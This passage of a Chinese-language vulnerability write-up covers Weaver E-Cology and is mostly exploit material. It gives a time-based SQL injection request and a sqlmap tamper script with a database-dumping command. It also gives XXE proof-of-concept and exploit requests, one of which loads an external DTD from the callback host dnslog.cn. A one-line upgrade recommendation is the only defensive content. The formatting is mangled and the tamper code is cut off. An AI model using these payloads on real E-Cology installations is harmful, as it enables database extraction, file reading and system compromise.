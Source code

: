     GET /weaver/weaver.file.FileDownloadForOutDoc/?fileid=123+WAITFOR+DELAY+'0:0:5'&isFromOutImg=1 HTTP/1.1Host:***Accept:*/*Connection: close

sqlmap利用：  

请求遍历随机数去配合payload实现注入的tamper脚本

  *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    import os,re,randomfrom lib.core.enums import PRIORITYfrom lib.core.common import singleTimeWarnMessagefrom lib.core.enums import DBMS  
      
    priority = PRIORITY.HIGHEST  
      
    def tamper(payload, **kwargs):    result = ""    num = random.randint(1,2**27)    result = str(num)+payload    return resul

尝试注入：  

  * 

    
    
    python3 sqlmap.py -r post.txt --tamper=ecology_sql_random.py --batch --dbs

 **修复建议** ：

目前官方已发布安全补丁，建议受影响用户尽快升级至10.58及以上版本。  

  

 **4.泛微E-Cology XXE漏洞(QVD-2023-16177)**

泛微e-
cology某处功能点最初针对用户输入的过滤不太完善，导致在处理用户输入时可触发XXE。攻击者可利用该漏洞列目录、读取文件，甚至可能获取应用系统的管理员权限。

 **漏洞编号** ：QVD-2023-16177

 **漏洞类** 型：XXE  

 **影响版本** ：泛微 EC 9.x 且补丁版本 < 10.58.2；泛微 EC 8.x 且补丁版本 < 10.58.2  

 **POC** ：  

  *   *   *   *   * 

    
    
    POST /rest/ofs/ReceiveCCRequestByXml HTTP/1.1Host:***Content-Type: application/xml  
    <M><syscode>&send;</syscode></M>

 **EXP1** :  

  *   *   * 

    
    
    POST /rest/ofs/ReceiveCCRequestByXml HTTP/1.1Host:****Content-Type: application/xml

 **EXP2** ：  

  *   *   *   *   *   *   * 

    
    
    POST /rest/ofs/deleteUserRequestInfoByXml HTTP/1.1Host:***Content-Type: application/xml  
    <?xml version="1.0" encoding="utf-8"?><!DOCTYPE syscode SYSTEM "http://dnslog.cn"><M><syscode>&send;</syscode></M>

